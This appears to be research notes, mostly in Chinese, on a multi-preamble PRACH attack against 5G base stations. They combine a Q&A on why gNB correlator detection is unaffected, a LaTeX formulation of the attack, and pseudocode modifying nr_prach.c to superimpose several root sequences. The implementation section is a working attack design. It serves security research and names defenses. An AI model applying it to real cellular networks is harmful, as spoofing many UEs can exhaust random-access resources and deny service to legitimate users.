

分析multipreamble attack 實作 vs 正常preamble detect


這樣對基地台的detecetion有影響嗎
很好的問題！不影響，原因在於 gNB 的偵測機制根本不看包絡，讓我解釋：

gNB 為什麼不受非恆定包絡影響
1. gNB 用的是線性相關器（Matched Filter）
$$R[n] = \text{IDFT}\bigl{\text{FFT}(r) \cdot \overline{\text{FFT}(x_u)}\bigr}$$

這是線性運算。對攻擊訊號：

$$s_{\text{atk}} = x_{u,CS_1} + x_{u,CS_2} + x_{u,CS_3}$$

代入後線性展開：

$$R_{\text{atk}}[n] = \underbrace{R_1[n]}{\text{peak @ }n_1} + \underbrace{R_2[n]}{\text{peak @ } n_2} + \underbrace{R_3[n]}_{\text{peak @ }n_3}$$

三個峰完全獨立，互不干擾。gNB 看到的是 M 個尖峰，跟攻擊訊號的 I/Q 長什麼樣無關。

2. CAZAC 的正交性保證峰值分離
ZC 序列的不同 CS 版本之間循環相關為零（Zero Autocorrelation）：

$$\sum_k x_{u,CS_m}[k] \cdot \overline{x_{u,CS_n}[k]} = 0 \quad \text{for } m \neq n$$

所以 Preamble 1 的峰 完全不會污染 Preamble 2 的峰的位置，包絡怎麼變都不影響這個性質。

3. 那非恆定包絡有什麼實際影響？
面向	影響	說明
gNB 相關峰偵測	✅ 無影響	線性操作，CAZAC 正交性保護
RF 功率放大器 (PA)	⚠️ 有影響	高 PAPR（振幅變化大）→ PA 可能飽和/非線性失真
總傳輸功率	⚠️ 有影響	M 個疊加 → 平均功率是單一 preamble 的 M 倍（無縮放時）
每個偵測峰的高度	⚠️ 看有無功率縮放	不縮放：每峰跟正常一樣高；縮放至單 preamble 總功率：每峰降低 $10\log_{10}(1/M)$ dB


I/Q 非恆定包絡只是攻擊訊號的「外觀」特徵，對 gNB 的 DFT 相關器完全透明。真正讓攻擊成功的是 CAZAC 的線性疊加性質，而不是包絡本身。這也是為什麼這個攻擊在理論上幾乎無法靠改進相關器來防禦——只能在更高層（RA 回應分配策略、O-RAN xApp 偵測異常）做防護。




The proposed attacker modifies the signal generation process to aggregate $M$ distinct preambles. The combined frequency-domain signal $Y_{attack}[k]$ constructed by the attacker is given by:
\begin{equation}
    Y_{attack}[k] = \sum_{m=0}^{M-1} \frac{\alpha}{M} \cdot X_{u_m}[k] \cdot e^{-j \frac{2\pi k C_{v_m}}{N_{ZC}}}
\end{equation}
where:
\begin{itemize}
    \item $M$ is the number of simultaneous attack sequences.
    \item $u_m$ and $C_{v_m}$ are the root sequence index and cyclic shift for the $m$-th preamble, respectively.
    \item $\alpha$ represents the total transmit amplitude. To prevent Digital-to-Analog Converter (DAC) overflow and maintain signal integrity, the amplitude of each component sequence is scaled by $1/M$.
\end{itemize}

This superposition allows the attacker to mimic multiple distinct UEs simultaneously. The resulting time-domain signal $y_{attack}(t)$ is obtained via IDFT:
\begin{equation}
    y_{attack}(t) = \text{IDFT}\{Y_{attack}[k]\}
\end{equation}


# 實作code


## 4. PHY Layer - PRACH Generation (nr_prach.c)

### Macro Definition

```pseudo
#define num_attack_sequences 3  // Number of simultaneous preambles
```

---

### Function: generate_nr_prach()

**Purpose**: Generate PRACH signals with multi-preamble and multi-FD-occasion support

```pseudo
function generate_nr_prach(ue, gNB_id, frame, slot) {
    
    // ... existing initialization ...
    
    fd_occasion = prach_pdu->num_ra  // FD occasion index from MAC
    
    // Use controlled amplitude from preconfigured value
    amp = ue->prach_vars[gNB_id]->amp
    
    prachF = prachF_tmp
    
    // MAIN LOOP: Process all FD occasions
    for (current_fd_occasion = 0; current_fd_occasion <= fd_occasion; current_fd_occasion++) {
        
        LOG_D(PHY, "Processing FD occasion %d/%d\n", current_fd_occasion, fd_occasion)
        
        // Compute root sequences for this FD occasion (if needed)
        if (!root_seq_computed) {
            compute_nr_prach_seq(
                nrUE_config->prach_config.prach_sequence_length,
                nrUE_config->prach_config.num_prach_fd_occasions_list[current_fd_occasion].num_root_sequences,
                nrUE_config->prach_config.num_prach_fd_occasions_list[current_fd_occasion].prach_root_sequence_index,
                ue->X_u
            )
        }
        
        // Get frequency parameters for this FD occasion
        n_ra_prb = nrUE_config->prach_config.num_prach_fd_occasions_list[current_fd_occasion].k1
        k = 12 * n_ra_prb - 6 * fp->N_RB_UL
        
        // Normalize k to valid range
        if (k < 0) {
            k += fp->ofdm_symbol_size
        }
        
        k *= K
        k += kbar
        
        LOG_I(PHY, "FD occasion %d: placing PRACH at position %d, freq start %d\n",
              current_fd_occasion, k * 2, n_ra_prb)
        
        // Sanity check for attack sequences
        Assert(num_attack_sequences < num_root_sequences,
               "num_attack_sequences must be less than available root sequences")
        
        // Reduce amplitude to prevent overflow when combining sequences
        original_amp = amp
        amp = original_amp / num_attack_sequences
        initial_k = k
        
        // ATTACK: Combine multiple root sequences
        for (seq_idx = 0; seq_idx < num_attack_sequences; seq_idx++) {
            
            // Select different root sequence for each iteration
            root_seq_index = (preamble_offset - first_nonzero_root_idx + seq_idx) 
                           % num_root_sequences
            
            Xu = ue->X_u[root_seq_index]
            current_k = initial_k
            
            // Generate signal for this sequence
            for (offset = 0; offset < N_ZC; offset++) {
                
                offset2 = offset * preamble_shift
                if (offset2 >= N_ZC) {
                    offset2 -= N_ZC
                }
                
                // Multiply with amplitude
                Xu_t = Xu[offset] * amp
                
                // Apply cyclic shift
                w = 2 * PI * offset2 / N_ZC
                ru = exp(j * w)
                
                // Combine signal (ADD to existing prachF)
                p = Xu_t * ru
                prachF[current_k].real += p.real
                prachF[current_k].imag += p.imag
                
                current_k++
                if (current_k * 2 == dftlen) {
                    current_k = 0
                }
            }
        }
    }
    
    // Mark root sequences as computed
    root_seq_computed = 1
    
    // ATTACK: Force PRACH format to 8
    prach_fmt_id = 8
    
    // Continue with standard PRACH processing...
    // (DFT, OFDM modulation, etc.)
}
```

**Key Attack Features**:
1. **Loop over all FD occasions**: Each FD occasion uses different frequency resources
2. **Multiple root sequences per FD occasion**: Combine 3 different sequences (num_attack_sequences = 3)
3. **Amplitude reduction**: Divide by num_attack_sequences to prevent overflow
4. **Signal accumulation**: Add all sequences to the same time-frequency resources
5. **Force PRACH format 8**: Ensures consistent format across all occasions
